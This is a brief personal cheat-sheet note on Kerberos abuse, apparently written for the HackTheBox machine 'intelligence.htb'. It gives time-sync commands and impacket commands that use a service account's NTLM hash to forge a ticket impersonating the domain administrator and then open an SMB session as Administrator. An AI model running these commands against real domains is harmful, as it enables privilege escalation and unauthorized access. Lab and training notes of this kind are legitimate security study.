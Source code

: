 ```yaml
---
title: Kerberos_Abuse
permalink: /Windows_PE/Kerberos
---
```



## To synchronize time with machine (necessary to abuse kerberos)

### On host
```VBoxManage setextradata "Kali-Linux-2021.4a-virtualbox-amd64" "VBoxInternal/Devices/VMMDev/0/Config/GetHostTimeDisabled" 1```

## On guest
```timedatectl set-ntp 1```  
```sudo ntpdate -u $IP_BOX```

# You get a ticket  
```python3 /usr/share/doc/python3-impacket/examples/getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :d170ae19de30439df55d6430e12dd621 -impersonate administrator```  
```export KRB5CCNAME=administrator.ccache```  
```impacket-smbclient Administrator@dc.intelligence.htb -k -no-pass```
